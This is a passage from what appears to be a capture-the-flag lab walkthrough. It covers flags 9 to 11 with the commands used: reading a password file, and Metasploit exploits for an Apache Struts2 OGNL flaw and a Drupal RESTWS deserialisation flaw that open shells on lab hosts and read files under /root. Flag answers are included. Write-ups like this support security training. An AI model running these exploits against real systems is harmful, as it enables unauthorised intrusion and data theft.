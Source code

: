 ### Flag 9: 

![image](https://github.com/user-attachments/assets/2d74a8a2-dee1-4afb-857e-b4d70755e321)
</br>
```shell
cat passwd

wudks8f7sd
```

## Exploit

### Flag 10: 


![image](https://github.com/user-attachments/assets/dcae3cba-d3ce-4863-9516-6b559ebc9797)
![image](https://github.com/user-attachments/assets/c62f14f0-8ff1-4153-a99f-17f9a81afa29)
</br>
```shell
search apache struts

use exploit/multi/http/struts2_content_type_ognl

set RHOSTS 192.168.13.12

run

cd /root

ls -alt

cat flagisinThisfile.7z

wjasdufsdkg
```

### Flag 11: 

![image](https://github.com/user-attachments/assets/5afb0fdd-2812-4554-ba6e-9dfd3cd34218)
![image](https://github.com/user-attachments/assets/58888177-6a20-4e96-b253-c0201814a902)
</br>
```shell
search drupal rce

use exploit/unix/webapp/drupal_restws_unserialize

options

set LHOST 192.168.13.1

set RHOSTS 192.168.13.13

run

shell

whoami

www-data
```
